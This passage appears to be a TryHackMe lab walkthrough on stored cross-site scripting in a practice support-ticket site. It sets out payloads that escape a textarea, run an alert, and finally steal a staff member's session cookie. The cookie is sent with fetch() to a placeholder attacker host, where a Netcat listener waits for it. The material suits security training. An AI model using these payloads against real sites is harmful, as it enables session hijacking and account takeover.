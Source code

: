 Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5c549500924ec576f953d9fc/room-content/23721628b263e7d6fd00097904bc6847.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/34e69ee3fce3021fee02a13a680d5d47.png)  

Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:

`</textarea>test`

Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/e247f6dd0b2ebe0e4e512b16b41cec05.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/0ad04cf010b889a8adfdba9d24bcb826.png)  

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:

 `</textarea><script>alert('THM');</script>`  

Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

nc

```shell-session
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

```ad-summary
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
```
